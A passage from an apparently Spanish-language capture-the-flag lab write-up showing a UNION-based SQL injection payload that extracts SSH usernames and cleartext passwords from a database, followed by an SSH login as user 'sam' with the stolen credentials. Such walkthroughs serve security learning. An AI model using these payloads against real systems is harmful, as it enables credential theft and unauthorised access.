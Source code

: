 ### Extracting Data

Vemos `3` campos, `id`, `ssh_users` y `ssh_pass`, creo que no tenemos muchas preguntas en este punto. Ahora extraeremos los datos de esta tabla

~~~ sql
 ' UNION SELECT 1,ssh_users,ssh_pass,4,5 FROM secret_db.secret-- -
~~~

![image-center](/assets/images/posts/gallery-sqli-5.png)

Vemos un registro de un usuario `sam` y su contraseña en texto claro. Nos autenticaremos en el servicio `ssh` utilizando estas credenciales

~~~ bash
ssh sam@172.17.0.2       
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:Eo+5P0bAKb4Oe1LGdogsFXPiLfpr//YJhU7NQUWKT7M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
sam@172.17.0.2's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.10.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sun Apr 20 14:30:35 2025 from 172.17.0.1

sam@78d96ca5e22c:~$ id
uid=1001(sam) gid=1001(sam) groups=1001(sam)
~~~

Y hemos ingresado a la máquina como el usuario `sam`, para poder limpiar la pantalla con `Ctrl + L`, definiremos la variable de entorno `TERM`
